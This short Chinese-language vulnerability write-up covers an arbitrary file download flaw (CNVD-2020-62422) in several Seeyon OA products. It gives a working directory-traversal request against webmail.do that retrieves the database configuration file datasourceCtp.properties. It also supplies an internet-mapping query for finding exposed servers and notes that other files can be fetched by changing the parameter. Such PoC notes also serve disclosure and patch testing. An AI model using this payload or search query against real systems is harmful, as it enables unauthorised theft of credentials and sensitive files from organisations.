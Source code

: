# 

# 致远OA webmail.do 任意文件下载 CNVD-2020-62422

## 漏洞描述

致远OA存在任意文件下载漏洞，攻击者可利用该漏洞下载任意文件，获取敏感信息

## 漏洞影响

```
致远OA A6-V5
致远OA A8-V5
致远OA G6
```

## 网络测绘

```
app="致远互联-OA"
```

## 漏洞复现

验证POC

```
/seeyon/webmail.do?method=doDownloadAtt&filename=test.txt&filePath=../conf/datasourceCtp.properties
```

在漏洞的OA 系统将会下载 `datasourceCtp.properties` 配置文件

![image-20220520153850024](./images/202205201538060.png)

更改参数 filePath 可下载其他文件
